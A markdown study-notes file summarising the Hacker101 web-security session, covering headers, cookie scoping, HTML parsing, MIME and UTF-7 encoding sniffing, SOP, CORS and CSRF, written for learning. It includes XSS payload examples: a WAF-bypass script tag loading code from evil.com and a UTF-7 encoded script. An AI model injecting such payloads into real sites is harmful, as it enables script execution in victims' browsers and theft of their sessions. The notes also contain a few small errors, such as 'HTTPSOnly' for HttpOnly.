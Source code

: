 # Hacker101 Sessions

## [02. The Web In Depth](https://www.hacker101.com/sessions/web_in_depth)  

#### Request Headers

__Referrer__: Normally, is the page that lead to the request being done. However, if the origin connection is HTTPS, referrer won't be passed to any other servers.  

__Authorization__: Most sites use a form of 'basic auth' for normal authorization pages. It normally takes the form of "Basic <base64'd username:password>".  

__Cookies__: Cookies are key-value pairs of data that come from the server and are stored in the client, normally for a fixed ammount of time. Each cookie has a domain pattern that must match. Each cookie must match the domain pattern. If it applies to a root domain, it applies to every subdomains. If you can set cookies in domains where you're not supposed to, is a breach of security.  

_i.e_:  

> Cookies added for ".foo.com" can be read in any subdomain of "foo.com"
>Cookies added for "bar.foo.com" will only apply to "bar.foo.com"
>A subdomain can set cookies for it's own children and parent, but never for sibiling domains. i.e: "bar.foo.com" can't set cookies on "bar2.foo.com", but can in "bar.foobar.foo.com" and in "foo.com".  

- Flags (indicated by the server):

--- Secure: Only accessible to HTTPS pages  
--- HTTPSOnly: The cookie cannot be read by Javascript code.  

#### HTML

__Parsing__:  HTML _should_ be parsed by the relevant spec, generally HTML5.
When talking about security, HTML won't be only parsed by the browser, but also by WAF and other filters. If a discrepancy exists betweent the parsing convention, a potential vulnerability might exist.  

--- Canonical Example:

When visiting ```http://foo.com/vuln?name=<script/xss%20src=http://evil.com/evil.js>``` and it generates:

```html
<html>
    <head>
        <title>Vuln name <script xss src=http://evil.com/evil.js></title>
    </head>
</html>
```
The WAF will see "script/xss" and let it through as it doesn't match parsing. Browser is prepared to treat the slash after the HTML as an empty space (it thinks it's a broken character), so it will just render an empty "xss" attribute in the script tag and let the src go through. Normally WAF parsers are not this dumb anymore.  


#### Content Sniffing

__MIME Sniffing__: The browser will often now only look at the Content-Type header that the server passes with a request, but also the contents of a page.  

> "If it looks enough like HTML, it'll be parsed as HTML"  

This led to IE 6/7 bugs where image and text image containing enough HTML tags would execute as HTML. (Not relevant to most users today, but still a thing in enterprises)-

--- i.e:

There's a site called ZuckBook that allows users to upload pictures. If a malicious user uploads an image that contains HTML and then links it to other users, HTML would be parsed in the victim's browser.   

That's why ZuckBook and other sites use a separate domain to host user media.  

__Encoding Sniffing__: 

There are sites like HackerNews that didn't specify an encoding for the HTML document, so it's up to the browser to apply heuristics to determine it. That's why sometimes it renders funky characters. 

> "If you are able to control the way the browser decodes text, yo may be able to alter the parsing"

An example is UTF-7 encoding, which can look like this:

```+ADw-script+AD4-alert('XSS');+ADw-/script+AD4-```  

This will go clean through HTML encoding, as there's no unsafe characters. What there is is unsafe UTF-7 characters, because older browsers will see this and switch the parsing over to UTF-7, rendering:  

```<script>alert('xss')</script>```  

...an allowing the attack to succeed.  

This can be a great way to bypass WAF's, as if they're looking for UTF-8, or ASCII and you send UTF-7 or UTF-32 characters, you get through the filter.  


_ALWAYS specify an encoding and be sure which encoding is the browser using when parsing_  


__Same-Origin Policy__: SOP is how the browser determines a number of security features, like what domains can you contact via AJAX requests, or the access to the DOM accross separate frames or windows.  

It's what's preventing Internet from havoc. Every time it's broken, something bad happens.  
_SOP is much more strict than cookies:_

-- Protocol must match - no crossing HTTP/S
-- Port numbers must match  
-- Domain names must be an exact match - no wildcarding or subdomain walking  

_SOP loosening:_

It's possible for developers to loosen the grip that SOP has on their communications.

-- Changing _document.domain_  
-- Using [postMessage](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)
-- Using CORS 

__CORS__:  

Cross-Origin Resource Sharing is still relatively new, and allows some risky situations.  

In essence, with misconfiguration, you're allowed to make requests outside of your origin (i.e from _foo.com_ to _bar.com_), so it's possible to pass to another server the receiving domain cookies, allowing attackers to potentially compromise logged-in users.  

__CSRF__:  

Cross-Site Request Forgery is when a attacker tricks a victim to access a site they control, which will submit data to the target site _as_ the victim. One of the most common vulnerabilities today (see _./README/CRSF_).  










